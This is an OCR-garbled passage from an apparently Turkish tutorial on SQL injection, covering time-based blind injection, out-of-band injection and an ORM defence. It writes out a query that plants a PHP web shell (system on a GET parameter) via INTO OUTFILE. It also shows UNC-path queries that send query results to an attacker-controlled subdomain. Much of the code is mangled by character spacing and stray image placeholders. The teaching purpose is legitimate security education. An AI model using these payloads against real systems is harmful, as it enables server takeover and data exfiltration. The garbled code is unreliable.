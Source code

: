 Burada veritabanının beklediğini görebilmekteyiz:

SELECT  \*  FROM user s  WHERE  i d  =  I F( 1=1,  sl eep( 5) , 0) ;![](Aspose.Words.714e9974-6004-42d9-b33b-ca5677c18d50.088.png)

[Open in app ](https://rsci.app.link/?%24canonical_url=https%3A%2F%2Fmedium.com%2Fp%2F7bcbd5f3fe04&%7Efeature=LiOpenInAppButton&%7Echannel=ShowPostUnderUser&source=---two_column_layout_nav----------------------------------)![](Aspose.Words.714e9974-6004-42d9-b33b-ca5677c18d50.089.png)![](Aspose.Words.714e9974-6004-42d9-b33b-ca5677c18d50.090.png)![](Aspose.Words.714e9974-6004-42d9-b33b-ca5677c18d50.091.png)

Buradaki test ortamımızda 3 satırlık veri olduğu için her birine yönelik işlem yapılır ve 5sn beklemek yerine 15sn beklemiş olur. Eğer 15sn beklemesini istemiyorsak da şu şekilde bir sorgu çalıştırabiliriz.

![](Aspose.Words.714e9974-6004-42d9-b33b-ca5677c18d50.092.png)

5- Out-of-Band SQLi

Şimdi kod yapımızı tekrar değiştirelim;

i d  =  r equest . get ( ' i d' )![](Aspose.Words.714e9974-6004-42d9-b33b-ca5677c18d50.093.png)

r abbi t mq. pushTask( ' r epor t \_gener at e' , i d) pr i nt ( "sel am")

Web uygulaması, bizden aldığı değeri RabbitMQ isimli bir servise gönderdi. Artık sleep() ifadesini koysak bile veritabanı uyumayacaktır. Çünkü SQL injection bizim konuştuğumuz uygulamada yok. Bu uygulama bizden alıp başka bir yapıya göndermektedir.

INTO OUTFILE diske bir veri yazma işlevini yerine getirir. Windowsun bir özelliği vardır.

SELECT  ' <?=syst em( @$\_GET[ ' cmd' ] ) ; ?>'  I NTO  OUTFI LE  ' var / www/ ht ml / c99. php' ;![](Aspose.Words.714e9974-6004-42d9-b33b-ca5677c18d50.094.png)

Burada samba bağlanır. domain’i çözmesi gerekir. subdomain’e biz artık başka şeyler yazabiliriz;

SELECT  ' i l ker '  I NTO  OUTFI LE  ' \ \ \ hacker . i l ker . com/ a' ;![](Aspose.Words.714e9974-6004-42d9-b33b-ca5677c18d50.095.png)

Burada artık kendi sql sorgumuzu da çalıştırabiliriz;

SELECT  ' i l ker '  I NTO  OUTFI LE  ' \ \ \ ' +( SELECT  ' i l ker ' ) +' . i l ker . com/ a' ;![](Aspose.Words.714e9974-6004-42d9-b33b-ca5677c18d50.096.png)

Biraz da bu meselenin defansif tarafını konuşalım. Kod yapımızı burada tekrar ele alalım;

i d  =  r equest . get ( ' i d' )![](Aspose.Words.714e9974-6004-42d9-b33b-ca5677c18d50.097.png)

quer y  =  "SELET  \*  FROM haber l er  WHERE  i d  =  "+i d db. execut e( quer y)

pr i nt ( "sel am")

Günümüzdeki framework’lerin çoğunda bize kattıkları en büyük özellik ORM (Object to Relational Mapping) ‘dir.

Artık SQL sorgusu yazmak yerine sadece kod üzerinden veri çekmekteyiz.

ORM![](Aspose.Words.714e9974-6004-42d9-b33b-ca5677c18d50.098.png)

cl ass  Haber l er ( Tabl e) :   i d  =  db. aut ( )


[ref1]: Aspose.Words.714e9974-6004-42d9-b33b-ca5677c18d50.058.png
